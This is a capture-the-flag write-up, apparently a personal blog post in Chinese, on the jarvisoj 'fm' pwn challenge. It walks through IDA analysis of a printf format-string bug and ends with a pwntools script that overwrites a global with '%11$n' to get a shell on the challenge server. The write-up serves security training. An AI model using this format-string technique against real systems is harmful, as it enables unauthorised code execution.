 ```yaml
---
layout:     post
title:      jarvisoj [61dctf]fm
author:     wooy0ung
tags: 		linux elf pwn
category:  	ctf
---
```



### 0x00 introduction

```
Problem Address:
https://www.jarvisoj.com

Download:
https://dn.jarvisoj.com/challengefiles/fm.eaef2247796c11db798a579396482399

Address:
nc pwn2.jarvisoj.com 9895
```
<!-- more -->


### 0x01 IDA分析

将可执行文件放到IDA分析, 定位到 main 函数, 这里的 read 方法可能存在栈溢出

![](/assets/img/ctf/pwn/2017-08-06-jarvisoj-fm/0x00.png)

看看栈布局, 不能覆盖返回地址, 而且开了 NX 和 Canary, 此处似乎不能利用

![](/assets/img/ctf/pwn/2017-08-06-jarvisoj-fm/0x01.png)

再看看程序逻辑, 只需判断 x 是否等于 4, 判断成功即可 getshell, 但 x 默认等于 3

![](/assets/img/ctf/pwn/2017-08-06-jarvisoj-fm/0x02.png)

而 main 函数的 printf 方法存在格式化字符串漏洞, 利用此处漏洞可以实现任意读写

![](/assets/img/ctf/pwn/2017-08-06-jarvisoj-fm/0x03.png)

由于开了 Canary, 先来 debug 确定是否会影响到我们在栈上布局 payload

![](/assets/img/ctf/pwn/2017-08-06-jarvisoj-fm/0x04.png)

定位到 printf((const char *)&v5), 打印栈区数据

![](/assets/img/ctf/pwn/2017-08-06-jarvisoj-fm/0x05.png)

这里 0x41414141 便是我们数据的数据 'AAAA', 输入的字符串相对于栈上的偏移位置是 11

![](/assets/img/ctf/pwn/2017-08-06-jarvisoj-fm/0x06.png)
![](/assets/img/ctf/pwn/2017-08-06-jarvisoj-fm/0x07.png)

经过两次 debug 可以确定放置 Canary 特征值的位置相对栈上的偏移位置是 31, 足够布置 payload

最后只需将 x 处数据覆写成 4 即可 getshell


### 0x02 exploit

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *

Io = remote('pwn2.jarvisoj.com', 9895)
#Io = process('./fm')
bin = ELF('./fm')

payload = p32(0x0804A02C) + '%11$n'
Io.send(payload)
Io.interactive()
```

getshell

![](/assets/img/ctf/pwn/2017-08-06-jarvisoj-fm/0x08.png)